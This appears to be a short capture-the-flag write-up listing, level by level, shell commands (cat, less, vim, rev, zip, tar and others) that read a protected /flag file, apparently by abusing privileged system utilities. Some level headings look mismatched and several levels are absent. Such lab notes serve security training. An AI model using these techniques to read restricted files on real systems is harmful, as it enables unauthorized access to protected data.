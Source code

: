 

### level 1 - /bin/cat

```bash
$ cat /flag
```

### level 2 

```bash
$ more /flag
```

### level 3

```bash
$ less /flag
```

### level 4 

```bash
$ tail /flag
```

### level 5 

```bash
$ head /flag
```

### level 6 - /bin/sort

```bash
$ sort /flag
```

### level 7 

```bash
$ vim /flag
```

### level 8 

```bash
$ emacs /flag
```

### level 9 

```bash
$ nano /flag
```

### level 10 - /bin/cat

```bash
$ rev /flag | rev
```

### level 19 - /bin/cat

```bash
$ zip test2.zip /flag && unzip -c test2.zip
```

### level 20 - /bin/cat

```bash
$ tar -cf test.tar /flag && tar -xf test.tar -O
```

### level 21 - /bin/cat

```bash
$ cat /flag
```

### level 22 - /bin/cat

```bash
$ cat /flag
```
